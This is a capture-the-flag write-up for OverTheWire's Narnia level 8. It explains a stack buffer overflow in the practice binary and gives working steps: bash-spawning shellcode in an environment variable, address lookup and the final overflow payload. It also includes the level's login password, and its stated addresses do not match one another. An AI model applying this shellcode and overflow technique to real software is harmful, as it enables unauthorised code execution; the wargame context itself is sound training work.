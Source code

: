 # Level 8
ssh narnia8@narnia.labs.overthewire.org -p 2226  
Pass: 1aBcDgPttG  
An initial run of the binary shows the following:  
<img width="418" alt="Screen Shot 2024-04-01 at 7 09 15 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/91b5823e-0c3d-4dc9-9024-3188504b3ea4">  

In the C source file we see that the program takes a command line argument and then passes it to func.  
We see that we are basically copying the character array we pass into the program into "bok" until it hits a null byte. We see that "bok" is allocated 20 bytes.  It is clear that there is a buffer overflow vulnerability because the string we input does not have to stop at 20 bytes but after that "bok" will be full and we will start overwriting the address of argv[1] and it wont be pointing to our payload anymore. Almost acts like a canary.  

So basically we want to 1. overwrite bok with 20 junk bytes 2. preserve address of argv[1] 3. 4 junk bytes for ebp 5. addr of a enviornment variable we control   

Make a file /tmp/getenvvaraddr.c in the tmp directory to find the address of the enviornment variable we are going to make:
<img width="609" alt="Screen Shot 2024-04-01 at 8 27 27 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/dbf7d601-e9bb-4fdb-b24a-dbd32493cbf5">  

Now make an enviornment variable with the shellcode we used from the previous challenges stored in it:
export LVL8="$(perl -e 'print"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')"  

Now compile the c file we made and run it with the name of this enviornment variable.  
$ gcc -m32 getenvvaraddr.c -o getenvvaraddr  
$ ./getenvvaraddr LVL8  
This gives us the following output:  
addr of LVL8: 0xffffdfa5  

Go into gdb, disassemble func(), set a break point right before exit, run with 20 A's as arg, display 20 values below $esp, get the address after the last 0x41414141 string for me it is (0xffffd790). In our actual payload we will be writing 12 more bytes so we need to subtract 12 from this. 






narnia8@gibson:/narnia$ perl -e 'printf("%8x\n", 0xffffaed7 - 12)'
ffffaecb  
./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA"') | xxd   

./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA" . "\xcb\xae\xff\xff" . "AAAA" . "\xa5\xdf\xff\xff"')  


